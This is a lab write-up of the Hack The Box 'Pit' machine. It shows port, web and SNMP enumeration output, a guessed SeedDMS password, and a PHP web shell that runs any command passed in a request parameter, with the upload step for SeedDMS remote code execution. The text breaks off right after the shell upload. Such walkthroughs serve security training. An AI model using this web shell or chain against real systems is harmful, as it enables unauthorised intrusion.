# Resolution summary

>[!summary]
>- The certificate of the service on port 9090 disclosed an **internal DNS** which allowed to reach a forbidden area
>- **SNMP** enumeration allowed to discover michelle user and an additional path which conducted to a **SeedDMS** login page
>- michelle was using a **weak and guessable password**, allowing to get access to the service simply guessing her credentials
>- SeedDMS is vulnerable to **Remote Command Execution** caused by the possibility to **upload and execute arbitrary PHP files**
>- Abusing the RCE it was possible to leak the seeddms user's password, discovering that it was also the password for michelle. **Reusing the password** allowed to get a low privileged access to the machine trough the service on port 9090
>- Local enumeration revealed the presence of a folder protected by **ACL** but providing write access to michelle. The contents of the folder were executed by a **bash script triggered by SNMP** and ran with high privileges. It was possible to **craft and copy custom scripts inside the folder** and **ran them trough SNMP**, allowing to add custom SSH key to the root user and gaining a privileged access to the box

## Improved skills

- SNMP Enumeration
- Password guessing and password stuffing
- Exploit known vulnerabilities

## Used tools

- nmap
- gobuster
- searchsploit
- onesixtyone

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ sudo nmap -sS -p- 10.10.10.241 -Pn -v -oN scans/all-tcp-ports.txt
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ sudo nmap -sT -sV -sC -A -p22,80,9090 10.10.10.241 -Pn -oN scans/open-tcp-ports.txt
...
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     Cross-Origin-Resource-Policy: same-origin
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|_    margin: 0 0 10p
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2020-04-16T23:29:12
|_Not valid after:  2030-06-04T16:09:12
|_ssl-date: TLS randomness does not represent time
...
```

Enumerated top 100 UDP ports:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/scans]
└─$ sudo nmap --top-ports 100 -sU 10.10.10.241 -oN top100-udp-ports.txt
...
PORT    STATE         SERVICE
161/udp open|filtered snmp

Nmap done: 1 IP address (1 host up) scanned in 107.12 seconds
```

# Enumeration

## Port 80 - HTTP (nginx 1.14.1)

### pit.htb

Enumerated port 80 using a web browser:



Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ gobuster dir -u http://10.10.10.241 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o scans/p80-directories.txt -f -r
...

┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ gobuster dir -u http://10.10.10.241 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/p80-files.txt
...
/index.html           (Status: 200) [Size: 4057]
/404.html             (Status: 200) [Size: 3971]
/.                    (Status: 301) [Size: 185] [--> http://10.10.10.241/./]
/poweredby.png        (Status: 200) [Size: 4148]
```

### dms-pit.htb (discovered from port 9090)

Enumerated dms-pit.htb using a web browser:



Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ gobuster dir -u http://dms-pit.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o scans/dms-pit-directories.txt -b 403,404 --wildcard

# nothing found

┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ gobuster dir -u http://dms-pit.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/dms-pit-files.txt -b 403,404 --wildcard
```

Discovered using SNMP **seeddms51x/seeddms/:**



Login through password guessing:

>[!important]
>michelle     michelle





Enumerated notes, files and directories inside DMS:



>[!hint]
> Dear colleagues, Because of security issues in the previously installed version (5.1.10), I upgraded **SeedDMS** to **version 5.1.15**. See the attached CHANGELOG file for more information. If you find any issues, please report them immediately to **[admin@dms-pit.htb](mailto:admin@dms-pit.htb)**.


Enumerated users:



Searched on Exploit-db for existing exploits:



Enumerated writable folders for Michelle:



Uploaded a custom file inside Michelle folder:









## Port 9090 - HTTP

Enumerated the certificate on port 9090:



common name: **dms-pit.htb**

### pit.htb:9090

Enumerated pit.htb using a web browser:



Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Pit]
└─$ gobuster dir -u https://10.10.10.241:9090 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/p9090-files.txt  -k --wildcard  
...
/favicon.ico          (Status: 200) [Size: 819]

# all directories return 200
```

Enumerated components:



Cockpit

## Port 161 UDP - SNMP

Enumerated valid community strings:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/scans]
└─$ onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt 10.10.10.241
Scanning 1 hosts, 123 communities
10.10.10.241 [public] Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64 #1 SMP Thu Apr 8 19:01:30 UTC 2021 x86_64
10.10.10.241 [public] Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64 #1 SMP Thu Apr 8 19:01:30 UTC 2021 x86_64
```

Enumerated the entire MIB tree:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/scans]
└─$ snmpwalk -c public 10.10.10.241 -v1 1
...
UCD-SNMP-MIB::dskPath.1 = STRING: /
UCD-SNMP-MIB::dskPath.2 = STRING: /var/www/html/seeddms51x/seeddms
UCD-SNMP-MIB::dskDevice.1 = STRING: /dev/mapper/cl-root
UCD-SNMP-MIB::dskDevice.2 = STRING: /dev/mapper/cl-seeddms
...
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
...
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: Memory usage
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: Memory usage
              total        used        free      shared  buff/cache   available
Mem:          3.8Gi       459Mi       2.9Gi        40Mi       528Mi       3.1Gi
Swap:         1.9Gi          0B       1.9Gi
Database status
OK - Connection to database successful.
System release info
CentOS Linux release 8.3.2011
SELinux Settings
user

                Labeling   MLS/       MLS/
SELinux User    Prefix     MCS Level  MCS Range                      SELinux Roles

guest_u         user       s0         s0                             guest_r
root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
user_u          user       s0         s0                             user_r
xguest_u        user       s0         s0                             xguest_r
login

Login Name           SELinux User         MLS/MCS Range        Service

__default__          unconfined_u         s0-s0:c0.c1023       *
michelle             user_u               s0                   *
root                 unconfined_u         s0-s0:c0.c1023       *
System uptime
 11:51:29 up 1 day, 20:45,  0 users,  load average: 0.08, 0.02, 0.01
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."monitoring" = INTEGER: 31
NET-SNMP-EXTEND-MIB::nsExtendResult."monitoring" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".1 = STRING: Memory usage
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".2 = STRING:               total        used        free      shared  buff/cache   available
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".3 = STRING: Mem:          3.8Gi       459Mi       2.9Gi        40Mi       528Mi       3.1Gi
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".4 = STRING: Swap:         1.9Gi          0B       1.9Gi
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".5 = STRING: Database status
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".6 = STRING: OK - Connection to database successful.
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".7 = STRING: System release info
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".8 = STRING: CentOS Linux release 8.3.2011
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".9 = STRING: SELinux Settings
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".10 = STRING: user
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".11 = STRING:
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".12 = STRING:                 Labeling   MLS/       MLS/
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".13 = STRING: SELinux User    Prefix     MCS Level  MCS Range                      SELinux Roles
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".14 = STRING:
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".15 = STRING: guest_u         user       s0         s0                             guest_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".16 = STRING: root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".17 = STRING: staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".18 = STRING: sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".19 = STRING: system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".20 = STRING: unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".21 = STRING: user_u          user       s0         s0                             user_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".22 = STRING: xguest_u        user       s0         s0                             xguest_r
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".23 = STRING: login
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".24 = STRING:
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".25 = STRING: Login Name           SELinux User         MLS/MCS Range        Service
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".26 = STRING:
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".27 = STRING: __default__          unconfined_u         s0-s0:c0.c1023       *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".28 = STRING: michelle             user_u               s0                   *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".29 = STRING: root                 unconfined_u         s0-s0:c0.c1023       *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".30 = STRING: System uptime
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".31 = STRING:  11:51:29 up 1 day, 20:45,  0 users,  load average: 0.08, 0.02, 0.01
End of MIB
```

# Exploitation

## SeedDMS - Remote Command Execution

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47022)

Uploaded a PHP webshell named rs.php and extracted the **documentid** value:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```



Executed arbitrary code using direct access to the uploaded file:

